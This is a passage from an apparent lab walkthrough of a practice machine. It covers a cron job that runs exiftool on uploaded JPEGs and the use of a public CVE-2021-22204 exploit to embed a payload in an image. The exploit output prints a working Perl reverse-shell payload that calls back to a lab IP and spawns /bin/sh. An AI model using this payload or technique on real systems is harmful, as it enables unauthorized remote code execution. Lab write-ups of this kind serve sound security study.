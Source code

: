 ```bash


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename;
do
    exiftool "$IMAGES/$filename" >> $LOGFILE
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

I placed a test _.jpg_ in the _/var/www/html/subrion/uploads_ directory and a cron job executed _image-exif.sh_ and placed the file in the metadata folder.

We should be able to get the file in _/var/www/html/subrion/uploads_ to execute if we name it with a _.jpg_ extension.

This will require creating a malicious .jpg file using an _exiftool_ that creates reverse shells embedded in _.jpg_ files.

Using the exploit at the following Github repo:

[Exiftool Exploit Github Repo](https://raw.githubusercontent.com/UNICORDev/exploit-CVE-2021-22204/main/exploit-CVE-2021-22204.py)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/exfiltrated]
└─$ python3 exploit.py -s 192.168.45.217 9002

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(9002,inet_aton('192.168.45.217')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
DEPENDS: Dependencies for exploit are met!
PREPARE: Payload written to file!
PREPARE: Payload file compressed!
PREPARE: DjVu file created!
PREPARE: JPEG image created/processed!
PREPARE: Exiftool config written to file!
EXPLOIT: Payload injected into image!
CLEANUP: Old file artifacts deleted!
SUCCESS: Exploit image written to "image.jpg"
```
